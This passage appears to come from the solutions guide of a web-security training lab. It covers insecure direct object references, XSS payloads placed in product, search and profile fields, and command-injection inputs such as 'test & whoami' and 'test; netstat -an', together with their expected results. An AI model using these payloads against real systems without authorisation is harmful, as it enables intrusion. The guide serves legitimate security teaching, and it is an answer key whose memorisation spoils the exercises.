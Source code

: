 **Expected Results**:
- User ID parameter manipulation works
- Direct object references not protected
- Cross-user data access possible

---

## Lab 5 Solutions: Input Validation

### Exercise 5.1: XSS Testing

**Locations Where XSS Works**:
```html
Product Name Fields:
<script>alert('XSS in Product')</script>

Search Functionality:  
<img src=x onerror=alert('Search XSS')>

User Profile Fields:
<svg onload=alert('Profile XSS')>
```

**Expected XSS Execution**:
- Alert dialogs should appear
- JavaScript code executes in application context
- Stored XSS persists across sessions
- Reflected XSS executes immediately

### Exercise 5.2: Command Injection

**Working Payloads**:
```bash
test & whoami
# Expected: Shows current Windows username

test && dir  
# Expected: Lists current directory contents

test || echo "Command injection successful"
# Expected: Displays the echo message

test; netstat -an
# Expected: Shows network connections
```

**Evidence of Success**:
- System command output displayed in application
- Operating system information disclosed
- File system access demonstrated

---
